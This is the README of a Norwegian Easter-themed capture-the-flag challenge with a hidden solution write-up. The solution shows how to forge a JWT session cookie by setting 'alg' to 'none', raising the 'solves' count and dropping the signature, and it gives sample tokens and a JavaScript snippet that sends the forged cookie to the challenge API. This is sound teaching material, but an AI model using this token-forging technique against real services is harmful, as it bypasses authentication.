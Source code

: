 <p align="center">
  <a href="https://ctf-rubberduck-easter.vercel.app">
    <img src="./screenshot.png" height="300px">
  </a>
</p>

&nbsp;

# Rubberduck påske CTF

En CTF-oppgave bygget med [`lit.js`](https://lit.dev) og [`tailwind.css`](https://tailwindcss.com) ment for å kjøre på [Vercel](https://vercel.com/) ved hjelp av [serverless functions](https://vercel.com/docs/concepts/functions/serverless-functions)

<br>
<hr>
<br>

## Oppgavetekst
> Påskeharen er godt i gang med årets levering av påskeegg, men har hvert år en del defekte egg som ikke vil åpnes. Disse kan selvfølgelige ikke påskeharen utlevere, men det finnes en instruks for hvordan eggene kan åpnes<br>
<br>
Hvert egg har to tilhørende tilfeldig adjektiver som beskriver egget og en "lykke-kode". Påskeharen sier at hvert egg som er låst ikke er korrekt justert for å oppnå sin "lykke-kode". Du kan justere egget ved å finne en hash av typen <code>SHA256(ADJEKTIV_1 + ADJEKTIV_2 + justering)</code> som begynner på eggets "lykke-kode".<br>
<br>
For eksempel så vil et egg med adjektivene <code>brilliant</code> og <code>stappfullt</code> trenge en justing på <code>123</code> for å oppnå sin "lykke-kode" med verdi <code>37964</code>. Fordi <code>SHA256(brilliantstappfullt123) == 37964....</code><br>
<br>
Men vi begynner å lure på om ikke påskeharen har lurt oss i år. Hen vil at vi skal åpne 100 000 000 egg på denne måten før vi får belønningen våres! Klarer du å lure en luring?<br>

<br>

## Installasjon og lokal kjøring
### Prequisits
* [nodejs](https://nodejs.org/en)
* [npm](https://nodejs.org/en)
* [vercel-cli](https://vercel.com/docs/cli)

Etter installasjon av node, `npm install` og `npm i -g vercel` kan prosjektet startes med kommandoen `vercel dev --port 3001`.

For utvikling med Vite hot-relead anbefales det å også kjøre `npm run dev` som vil starte en hot-reaload devserver av frontend på port `3000` (satt opp til å proxye `/api` kall til `http://localhost:3001` (Vercel))

<br>

## Løsning
<details>
  <summary>Klikk for å vise løsningforslag</summary>
  <br>
  Oppgaven spesifiserer at brukeren må klare å "knekke" 100 000 000 påskeegg før man får "belønning". Ettersom knekking av påskeeggene baserer seg på å "gjette" seg frem til en `sha-256` hash som begynner på samme fire bokstaver som "lykke-koden" vil dette i praksis være tidsumulig med dagens datakraft.

  <br><br>

  Dersom vi reverse engineerer kommunikasjonen mellom frontend og backend ser vi at kommunikasjonen er basert på at frontend sender inn korrekt `padding` til `/api/next_egg` endepunktet.

  Dersom `padding` er korrekt så vil backend sende tilbake et nytt egg og slik har vi det gående.

  Dersom vi ser på trafikken nærmere ser vi at backend alltid oppdaterer en cookie `session` for hver korrekt `padding` frontend sender. Denne `session` cookien ser ut til å være en JWT.

  Et eksempel på en slik session er:
  ```
  eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhZGplY3RpdmUxIjoiZnJhc3TDuHRlbmRlIiwiYWRqZWN0aXZlMiI6Imh1bXBldGUiLCJjaGFsbGVuZ2UiOiI4ZGExIiwic29sdmVzIjowLCJqdGkiOiJmMWM4ZmMwMy1mNjIxLTRmYzEtOTVmNS1hNDYxNDcxMmFkMDciLCJpYXQiOjE2ODAzMDg1OTgsImV4cCI6MTY4MDM5NDk5OH0.uIHVTa4D7CxE9QmEKzFq34XGFTK44MFU4giqmVVGNeE
  ```

  En JWT er delt opp i tre base64-encoded deler: `header`, `payload` og `signature`. Dersom vi decoder vår JWT får vi følgende strukturer tilbake:
  ```json
  [
    {
      "typ": "JWT",
      "alg": "HS256"
    },
    {
      "adjective1": "frastøtende",
      "adjective2": "humpete",
      "challenge": "8da1",
      "solves": 0,
      "jti": "f1c8fc03-f621-4fc1-95f5-a4614712ad07",
      "iat": 1680308598,
      "exp": 1680394998
    },
    "uIHVTa4D7CxE9QmEKzFq34XGFTK44MFU4giqmVVGNeE"
  ]
  ```

  Det finnes flere svakheter med hvordan JWT verifisering kan være implementert på en server. En av hovedsvakhetene (men også en styrke) er at det i det hele tatt kan lese `header` og `payload` feltene uten å verifisere den opp mot `signature` delen.

  En annen svakhet i noen JWT implementasjoner er at algoritmen som brukes for å signere `header` + `payload` ligger klart definert i `header` feltet og kan i en evt. feil-implementasjon bli brukt under validering av JWT-en. <b>Dette er svakheten her</b>

  Dersom vi endrer algoritmen i JWT headeren våres til å spesifisere at `"alg": "none"` skal benyttes (som er en helt gyldig iht. JWT-spesifikasjonen) så kan vi også fritt endre `payload` og fjerne hele `signature` delen:

  ```json
  [
    {
      "typ": "JWT",
      "alg": "none"
    },
    {
      "adjective1": "frastøtende",
      "adjective2": "humpete",
      "challenge": "8da1",
      "solves": 100000000,
      "jti": "f1c8fc03-f621-4fc1-95f5-a4614712ad07",
      "iat": 1680308598,
      "exp": 1680394998
    }
  ]
  ```

  Dersom vi nå koder denne strukturen tilbake til en gyldig JWT:

  ```
  eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhZGplY3RpdmUxIjoiZnJhc3TDuHRlbmRlIiwiYWRqZWN0aXZlMiI6Imh1bXBldGUiLCJjaGFsbGVuZ2UiOiI4ZGExIiwic29sdmVzIjoxMDAwMDAwMDAsImp0aSI6ImYxYzhmYzAzLWY2MjEtNGZjMS05NWY1LWE0NjE0NzEyYWQwNyIsImlhdCI6MTY4MDMwODU5OCwiZXhwIjoxNjgwMzk0OTk4fQ
  ```

  Så kan den brukes for å "lure" serveren til å tro at vi nå har åpnet 100 000 000 påskeegg og gi oss belønningen våres

  <br>
  <hr>
  <br>
  
  ### Fullstending løsnings-kode:
  ```javascript
  const header = { typ: "JWT", alg: "none" };
  const payload = { solves: 100000000 };

  const headerAsBase64Url = btoa(JSON.stringify(header)).replaceAll('=', '');
  const payloadAsBase64Url = btoa(JSON.stringify(payload)).replaceAll('=', '');

  const session = `${headerAsBase64Url}.${payloadAsBase64Url}`;

  const { reward } = await fetch('/api/new_egg', { headers: { Cookie: `session=${session}` } })
    .then(response => response.json());

  console.log(`The reward is: ${reward}`);
  ```
  
</details>
